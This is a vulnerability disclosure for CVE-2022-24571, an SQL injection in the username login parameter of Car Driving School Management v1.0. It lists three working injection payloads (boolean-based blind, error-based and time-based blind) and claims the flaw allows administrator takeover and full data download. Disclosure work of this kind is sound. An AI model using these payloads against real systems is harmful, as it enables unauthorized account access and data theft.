 ## [CVE-2022-24571](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24571)

## [Vendor](https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-24571/Docs/Screenshot%202022-03-02%20135510.png)

## Description:
The `username` parameter on Car Driving School Management v1.0 appears to be vulnerable to SQL injection attacks. 
A single quote was submitted in the username parameter, and a database error message was returned. 
Two single quotes were then submitted and the error message disappeared. 
The attacker can take administrator account control and also of all accounts on this system, also the malicious user can download all information about this system.

Status: CRITICAL

[+] Payloads:

```mysql

---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=DMdqCjGG' OR NOT 6823=6823-- yrqx&password=a5Y!f7m!O0

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=DMdqCjGG' AND (SELECT 9746 FROM(SELECT COUNT(*),CONCAT(0x71786b7671,(SELECT (ELT(9746=9746,1))),0x7171787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- gzNl&password=a5Y!f7m!O0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=DMdqCjGG' AND (SELECT 9290 FROM (SELECT(SLEEP(5)))RWHi)-- vsyd&password=a5Y!f7m!O0
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/blob/main/2022/CVE-2022-24571)

## Proof and Exploit:
[href](https://streamable.com/n9r8uk)
